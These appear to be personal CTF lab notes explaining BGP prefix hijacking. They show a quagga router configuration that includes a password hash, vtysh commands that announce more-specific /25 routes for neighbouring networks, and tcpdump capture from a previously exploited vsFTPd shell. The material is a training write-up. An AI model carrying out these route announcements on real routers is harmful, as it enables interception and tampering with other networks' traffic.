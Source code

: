 ### What Is BGP Hijacking?

BGP hijacking occurs when an AS announces IP address spaces belonging to another AS. This announcement attracts traffic meant for that IP address range.

Other common names for BGP hijacking are:

- **Prefix** hijacking.
- **Route** hijacking.
- **IP** hijacking.

BGP hijacking occurs when someone or something corrupts the routing tables maintained by AS routers. This corruption enables a backbone router to improperly advertise as having the most efficient route to a network.

Since BGP always favors the shortest path to the desired IP address, anyone looking to cause a BGP hijack must create a route announcement that either:

- Provides a more specific route with a smaller range of IP addresses than other ASes.
- Offers a shorter route to certain blocks of IP addresses.

Both strategies require the hacker to either control an AS router or compromise one of approx. 80,000 currently operational ASes. This process is easier said than done, which is why most malicious BGP hijacks are the work of highly skilled and well-funded hacker groups.

BGP hijacking enables attackers to reroute Internet traffic to the wrong destination or route. Rerouting traffic enables a threat actor to intercept, spy on, or tamper with transmitted data.

![How BGP hijacks work](https://phoenixnap.com/blog/wp-content/uploads/2023/11/how-bgp-hijacks-work.jpg)

The easiest way to understand BGP hijacking is to compare it to someone secretly changing all the signs on a stretch of freeway and rerouting traffic onto incorrect exits.

![[Pasted image 20240417143321.png]]

### Quagga

You saw “quagga” mentioned in the Router exploration section , but what is quagga ?  
Basically quagga is a routing software and since quagga is installed on this host then most likely we are going to perform bgp-hijacking or route-hijacking.

You can see there are two configuration files:\

#### /etc/quagga/bgpd.conf

```
!
hostname router1
password a0ceca89b47161dd49e4f6b1073fc579
log stdout
!
debug bgp updates
!
router bgp 60001
 bgp log-neighbor-changes
 bgp router-id 1.1.1.1
 network 172.16.1.0/24
 
 neighbor 172.16.12.102 remote-as 60002
 neighbor 172.16.12.102 weight 100
 neighbor 172.16.12.102 soft-reconfiguration inbound
 neighbor 172.16.12.102 prefix-list LocalNet in
 
 neighbor 172.16.31.103 remote-as 60003
 neighbor 172.16.31.103 weight 100
 neighbor 172.16.31.103 soft-reconfiguration inbound
 neighbor 172.16.31.103 prefix-list LocalNet in
!
# Deny any changes to routing to the local network
ip prefix-list LocalNet seq 5 deny 172.16.1.0/24 le 32
ip prefix-list LocalNet seq 10 permit 0.0.0.0/0 le 32
!
line vty
!
end
#

```

This router is AS 60001
There are another 2 AS:

60002 and 60003

### Configuration with VTYSH

VTYSH provides a unified command-line interface for managing multiple network services and protocols, such as routing protocols (e.g., BGP, OSPF) and network configuration settings.

When you enter the "vtysh" command, you're essentially accessing a shell environment where you can interact with the networking device and configure various aspects of its operation, such as routing tables, network interfaces, and protocol settings.

Run:

```
$ vtysh
```

router1.ctx.ctf# $ 

 Once into vtysh run the following to see the neighbors:

```
 $ show bgp neighbors

```

> BGP neighbor is 172.16.12.102, remote AS 60002, local AS 60001, external link
> ...
> BGP neighbor is 172.16.31.103, remote AS 60003, local AS 60001, external link
> ...


#### Routing tables

Run:

```
 $ show ip bgp neighbors 172.16.12.102 advertised-routes
```

> ![[bgp.png]]

You can see there are two networks 172.16.1.0/24 and 172.16.3.0/24, so if you get connected to the 172.16.2.0/24 you'd intercept all traffic.

Run the following commands:

```
$ configure terminal
router1.ctx.ctf(config)# $ router bgp 60001
router1.ctx.ctf(config-router)# $ network 172.16.2.0/25
router1.ctx.ctf(config-router)# $ network 172.16.3.0/25

```

Exit the terminal with the two `exit` commands.

See how the configuration has changed:

```
router1.ctx.ctf# $ show ip bgp neighbors 172.16.12.102 advertised-routes
```

![[bgp1.png]]

You can see there's a new AS 60003. 

> [!NOTE] Address 172.16.2.0/25
>   
The network address "172.16.2.0/25" represents a subnet with the following characteristics:

> - Network Address: 172.16.2.0
> - Subnet Mask: 255.255.255.128 (/25 in CIDR notation)
> - Usable IP Range: 172.16.2.1 to 172.16.2.126
> - Broadcast Address: 172.16.2.127
> 
> In CIDR notation (/25), the subnet mask has 25 leading bits set to 1, indicating the network portion of the address, and the remaining 7 bits set to 0, allowing for 128 possible host addresses in the subnet.
> 
> This subnet falls within the private IP address range defined by RFC 1918, commonly used in local area networks (LANs) for internal communication.



![[Diagram.svg]]


### Capturing packets with tcpdump


You're telling `tcpdump` to capture packets on the `eth0` interface and print each packet's content in ASCII format, including both the packet header and payload.

- The `-i` option, it specifies the network interface to capture packets from. In your command, `eth0` is the network interface specified.

- The `-A` option tells `tcpdump` to print each packet in ASCII format, displaying both the packet's header and its payload as ASCII characters.

#### Run tcdump on the vsFTPd 2.3.4 Exploitation shell

```
$ tcpdump -i eth0 -A

```


[[TCP flag]]
[[UDP flag]]

